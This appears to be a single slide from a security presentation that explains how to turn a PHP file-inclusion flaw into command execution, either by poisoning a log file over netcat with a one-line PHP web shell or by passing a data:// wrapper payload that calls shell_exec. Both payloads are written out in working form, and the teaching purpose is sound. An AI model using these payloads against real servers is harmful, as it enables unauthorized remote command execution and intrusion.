

# How do we execute code that does not exist?
Contaminate log files
Connect to the webserver using netcat
Send the following line:
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
Execute the log file
Use PHP Wrappers
Format the input parameter like the following line:
data:text/plain,<?php echo shell_exec(“ls”) ?>
Fill in the vulnerable parameter with that data

Replace this with any command
1. https://www.php.net/manual/en/wrappers.data.php